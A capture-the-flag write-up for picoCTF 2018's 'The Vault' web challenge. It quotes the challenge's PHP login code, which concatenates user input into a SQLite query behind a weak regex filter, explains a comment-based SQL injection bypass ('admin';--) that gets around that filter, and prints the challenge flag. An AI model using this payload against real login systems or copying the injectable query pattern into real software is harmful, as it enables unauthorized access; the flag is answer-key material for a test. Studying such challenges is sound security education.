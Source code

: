 # The Vault
Web - 250 Points - 1775 Solves (10/12/2018)

> There is a website running at http://2018shell1.picoctf.com:56537. Try to see if you can login!

## Solution
Upon visiting the website, we're greeted with a simple login page, which includes a link to the website's source code.

![img1 not found](images/img1.png)

Here's the source code:
```php
<?php
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  include "config.php";
  $con = new SQLite3($database_file);

  $username = $_POST["username"];
  $password = $_POST["password"];
  $debug = $_POST["debug"];
  $query = "SELECT 1 FROM users WHERE name='$username' AND password='$password'";

  if (intval($debug)) {
    echo "<pre>";
    echo "username: ", htmlspecialchars($username), "\n";
    echo "password: ", htmlspecialchars($password), "\n";
    echo "SQL query: ", htmlspecialchars($query), "\n";
    echo "</pre>";
  }

  //validation check
  $pattern ="/.*['\"].*OR.*/i";
  $user_match = preg_match($pattern, $username);
  $password_match = preg_match($pattern, $username);
  if($user_match + $password_match > 0)  {
    echo "<h1>SQLi detected.</h1>";
  }
  else {
    $result = $con->query($query);
    $row = $result->fetchArray();

    if ($row) {
      echo "<h1>Logged in!</h1>";
      echo "<p>Your flag is: $FLAG</p>";
    } else {
      echo "<h1>Login failed.</h1>";
    }
  }

?>
```

After reading the code, we can conclude that this is a basic SQL injection challenge with a small twist. A regex match blocks any attempts of using a payload with `' OR` in it, so the typical `' OR 1=1;-- ` login bypass would not work in this case.

To avoid this caveat, simply construct a payload without `OR` in it:

```
Username: admin';--
Password: [anything]
```

The server will then execute the following query:

```sql
SELECT 1 FROM users WHERE name='admin';-- ' AND password=''
```

... and grant us access to admin.

## Flag
```
picoCTF{w3lc0m3_t0_th3_vau1t_c09f30a0}
```

## More Write-ups
- https://ctftime.org/task/6803

